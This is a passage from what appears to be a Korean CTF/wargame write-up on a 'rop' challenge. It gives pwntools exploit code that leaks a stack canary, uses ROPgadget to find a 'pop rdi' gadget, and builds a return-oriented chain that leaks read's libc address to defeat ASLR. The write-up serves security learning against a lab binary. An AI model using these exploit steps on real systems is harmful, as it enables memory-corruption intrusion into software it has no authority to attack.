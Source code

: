 ```python
payload = b'A' * (buf2canary + 1)
p.sendafter("Buf: ", payload)
p.recvuntil(payload)
cnry = u64(b"\x00"+p.recvn(7))
slog("canary", cnry)
```

> 이 때 sendline의 경우 뒤에 "\\n"을 붙인다. read 함수로 입력을 받는 경우 send로 보내야 하고 scanf 함수는 "\\n"까지 입력값을 받기 때문에 sendline로 보내야한다고 한다.

<br>

### 02.3 system 함수 주소 알아내기

system 함수의 주소는 ASLR 기법이 적용되어 있기 때문에 일반적인 방법으로는 주소를 알아낼 수 없다. 때문에 GOT table 에서의 read 함수의 주소를 출력해보고 libc에서의 read함수와 system함수간의 거리를 계산하여 system 함수의 주소를 구해야한다.

<br>

#### rot 설계

puts 함수를 이용해 read 함수의 주소를 출력하려고 한다. 디버깅을 해보면 puts 함수는 edi 레지스터로 인자를 받고 출력하는 것을 알 수 있다.
![image](https://github.com/bshyuunn/bshyuunn.github.io/assets/87067974/7fd3e092-e828-4d76-aa83-6cd8b1b0eda1)


때문에 pop edi 또는 pop rdi 가젯의 주소를 찾아 ret address에 넣어주고 ret address 뒤에 GOT 테이블에서의 read 함수의 주소를 인자로 넣어주면 rdi에 read 함수의 주소가 들어가게 된다. 이후 puts 함수의 주소를 다음 값으로 넣어주게 되면 read 함수의 주소를 출력시킬 수 있다.

다음과 같은 스택을 그려볼 수 있다.
![image](https://github.com/bshyuunn/bshyuunn.github.io/assets/87067974/8aca1cd9-abef-4e78-b8f4-9d621db675ab)


<br>

#### 가젯 탐색

ROPgadget을 이용하여 리턴 가젯을 탐색할 수 있다.

```
ROPgadget --binary ./rop --re "pop rdi"
```

0x4007f3 위치에 pop rdi 가젯이 있는 것을 확인할 수 있다.
![image](https://github.com/bshyuunn/bshyuunn.github.io/assets/87067974/8e535288-4c63-4163-bda0-b1c5de5cfa6a)


<br>

#### 익스 짜기

따라서 다음 코드로 라이브러리에서의 read 함수의 주소를 출력시킬 수 있다.

```python
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
# ROPgadget --binary ../exe/rop --re "pop rdi"
pop_rdi = 0x00000000004007f3

payload = b"A"*buf2canary + p64(cnry) + b"B"*0x8

# puts(read_got) -> read 함수 출력
payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)

p.sendafter("Buf: ", payload)
read = u64(p.recvn(6)+b"\x00\x00") 
# \x00\x00을 더해주는 이유는 6바이트 크기의 함수 주소를 8바이트로 맞춰주는 것 같다.

```